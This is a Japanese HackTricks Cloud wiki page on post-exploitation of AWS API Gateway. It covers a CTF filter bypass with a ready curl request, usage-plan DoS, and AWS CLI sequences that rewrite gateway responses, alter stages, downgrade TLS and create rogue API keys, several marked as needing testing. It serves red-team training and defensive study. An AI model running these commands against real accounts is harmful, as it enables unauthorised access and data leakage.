# AWS - API Gateway Post Exploitation

{% hint style="success" %}
AWSハッキングを学び、練習する:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングを学び、練習する: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローする。**
* **PRを提出してハッキングトリックを共有する** [**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリ。

</details>
{% endhint %}

## API Gateway

詳細については以下を参照してください:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### 非公開APIへのアクセス

[https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:)で`com.amazonaws.us-east-1.execute-api`サービスを使用してエンドポイントを作成し、アクセス可能なネットワーク（おそらくEC2マシン経由）にエンドポイントを公開し、すべての接続を許可するセキュリティグループを割り当てます。\
その後、EC2マシンからエンドポイントにアクセスできるようになり、以前は公開されていなかったゲートウェイAPIを呼び出すことができます。

### リクエストボディのパススルーを回避する

この技術は[**このCTFの書き起こし**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp)で発見されました。

[**AWSドキュメント**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html)の`PassthroughBehavior`セクションに示されているように、デフォルトでは、リクエストの**Content-Type**ヘッダーをチェックする際に、値**`WHEN_NO_MATCH`**は変換なしでリクエストをバックエンドに渡します。

したがって、CTFでは、API Gatewayに統合テンプレートがあり、`Content-Type: application/json`を使用してリクエストが送信された場合、レスポンスでフラグが漏洩するのを防いでいました:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

しかし、**`Content-type: text/json`** を使用してリクエストを送信すると、そのフィルタを回避できます。&#x20;

最後に、API Gatewayが `Get` と `Options` のみを許可していたため、ボディにクエリを含むPOSTリクエストを送信し、ヘッダー `X-HTTP-Method-Override: GET` を使用することで、任意のdynamoDBクエリを制限なしに送信することが可能でした。

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

**Enumeration**セクションでは、キーの**使用プランを取得**する方法が示されています。キーを持っていて、それが**月にX回の使用に制限**されている場合、**それを使用してDoSを引き起こす**ことができます。

**API Key**は、**`x-api-key`**という**HTTPヘッダー**内に**含める**だけで済みます。

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

`apigateway:UpdateGatewayResponse`および`apigateway:CreateDeployment`の権限を持つ攻撃者は、**既存のGateway Responseを変更して、機密情報を漏洩させるカスタムヘッダーやレスポンステンプレートを含めたり、悪意のあるスクリプトを実行させたりすることができます**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在的な影響**: 機密情報の漏洩、悪意のあるスクリプトの実行、またはAPIリソースへの不正アクセス。

{% hint style="info" %}
テストが必要
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

`apigateway:UpdateStage`および`apigateway:CreateDeployment`の権限を持つ攻撃者は、**既存のAPI Gatewayステージを変更してトラフィックを別のステージにリダイレクトしたり、キャッシュ設定を変更してキャッシュされたデータに不正アクセスしたりすることができます**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在的な影響**: キャッシュされたデータへの不正アクセス、APIトラフィックの妨害や傍受。

{% hint style="info" %}
テストが必要
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

`apigateway:PutMethodResponse` と `apigateway:CreateDeployment` の権限を持つ攻撃者は、**既存の API Gateway REST API メソッドのメソッドレスポンスを変更し、カスタムヘッダーやレスポンステンプレートを含めることで、機密情報を漏洩させたり、悪意のあるスクリプトを実行させたりすることができます**。
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potential Impact**: 機密情報の漏洩、悪意のあるスクリプトの実行、またはAPIリソースへの不正アクセス。

{% hint style="info" %}
Need testing
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

`apigateway:UpdateRestApi`および`apigateway:CreateDeployment`の権限を持つ攻撃者は、**API Gateway REST APIの設定を変更してログを無効にしたり、最小TLSバージョンを変更したりして、APIのセキュリティを弱体化させる可能性があります**。
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在的影響**: APIのセキュリティを弱め、許可されていないアクセスや機密情報の露出を引き起こす可能性があります。

{% hint style="info" %}
テストが必要
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

`apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, および `apigateway:CreateUsagePlanKey` の権限を持つ攻撃者は、**新しいAPIキーを作成し、それらを使用プランに関連付け、これらのキーを使用してAPIへの不正アクセスを行うことができます**。
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**潜在的影響**: APIリソースへの不正アクセス、セキュリティコントロールの回避。

{% hint style="info" %}
テストが必要
{% endhint %}

<details>

<summary><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで会社を宣伝**したり、**PDFでHackTricksをダウンロード**したい場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れよう
* 独占的な[**NFTコレクション**](https://opensea.io/collection/the-peass-family)である[**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見しよう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**Telegramグループ**](https://t.me/peass)に参加したり、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローしよう。
* **ハッキングのトリックを共有するには、** [**HackTricks**](https://github.com/carlospolop/hacktricks)や[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してください。

</details>
